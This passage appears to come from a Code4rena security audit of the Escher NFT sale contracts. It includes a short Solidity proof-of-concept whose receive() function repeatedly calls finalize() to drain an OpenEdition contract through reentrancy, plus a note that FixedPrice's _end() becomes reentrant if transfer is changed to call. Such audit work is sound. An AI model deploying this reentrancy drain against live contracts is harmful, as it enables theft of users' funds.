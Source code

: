 ```javascript
```

`OpenEditionReentrancy.sol`
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

interface IOpenEdition {
    function finalize() external;
}

contract OpenEditionReentrancy {
    IOpenEdition private immutable openEdition;

    constructor(address _oe) {
        openEdition = IOpenEdition(_oe);
    }

    receive() external payable {
        // iterate sufficiently long to steal as much as possible
        while(address(openEdition).balance > 0.0001 ether) {
            openEdition.finalize();
        }
    }
}
```

### Tools Used
vscode, forge


### Recommended Mitigation Steps
I suggest using something like the OZ `ReentrancyGuard` for finalize calls.

## L-2 `feeReceiver` can steal all funds in `FixedPrice` using re-entry when `transfer` is changed to `call`

https://github.com/code-423n4/2022-12-escher/blob/main/src/minters/FixedPrice.sol#L109

When this issue is fixed:

https://gist.github.com/Picodes/cd4ff52d400a1d060dcbd3d85b08b10f#l-2-unsafe-erc20-operations

the final call to `_end()`, through `buy()` will be open to reentrancy attacks:

```javascript
107:    function _end(Sale memory _sale) internal {
108:        emit End(_sale);
109:        ISaleFactory(factory).feeReceiver().transfer(address(this).balance / 20); // when using call here, it will be possible to use reentrancy
110:        selfdestruct(_sale.saleReceiver);
111:    }
```
